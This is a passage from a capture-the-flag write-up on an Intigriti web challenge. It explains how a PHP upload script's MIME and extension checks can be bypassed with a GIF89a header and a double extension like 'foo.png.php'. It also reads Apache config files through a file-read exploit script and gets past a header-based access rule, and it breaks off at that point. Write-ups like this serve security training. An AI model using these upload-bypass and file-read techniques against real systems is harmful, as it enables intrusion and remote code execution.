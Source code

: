 With that said, this PHP script is vulnerable to **arbitrary file upload**! Also, the validations can be very easily bypassed by making our request's file MIME type's type is `image` with [GIF file signature](https://en.wikipedia.org/wiki/List_of_file_signatures) (`GIF89a`) and the filename contains `.png`, `.jpg`, or `.jpeg`. Therefore, we can upload our own PHP script with double file extension, like **`foo.png.php`**.

However, if we try to access this PHP script, we'll get "403 Forbidden":

```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|14:38:59(HKT)]
└> curl https://challenge-1025.intigriti.io/upload_shoppix_images.php   
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.65 (Debian) Server at challenge-1025.intigriti.io Port 8080</address>
</body></html>
```

In the `<address>` element, we know that the web server is using [Apache](https://httpd.apache.org/), and its version is `2.4.65`!

To understand this "403 Forbidden", we can read Apache's configuration files. More specifically, [site configuration](https://httpd.apache.org/docs/2.4/configuring.html) files. Usually, the file path will be at `/etc/apache2/sites-enabled/`:

```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|14:39:03(HKT)]
└> python3 read_files.py '/etc/apache2/sites-enabled/'                    
[+] File content:
000-default.conf
```

```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|14:45:17(HKT)]
└> python3 read_files.py '/etc/apache2/sites-enabled/000-default.conf'
[+] File content:
<VirtualHost *:8080>
    [...]
    <Files "upload_shoppix_images.php">
        <If "%{HTTP:is-shoppix-admin} != 'true'">
            Require all denied
        </If>
        Require all granted
    </Files>
</VirtualHost>
```

In [file directive](https://httpd.apache.org/docs/2.4/mod/core.html#files) `upload_shoppix_images.php`, if the request doesn't have header `is-shoppix-admin` and its value is not `true`, the request will be denied, resulting in "403 Forbidden".

Therefore, to access that PHP script, we need to append request header `is-shoppix-admin: true`:
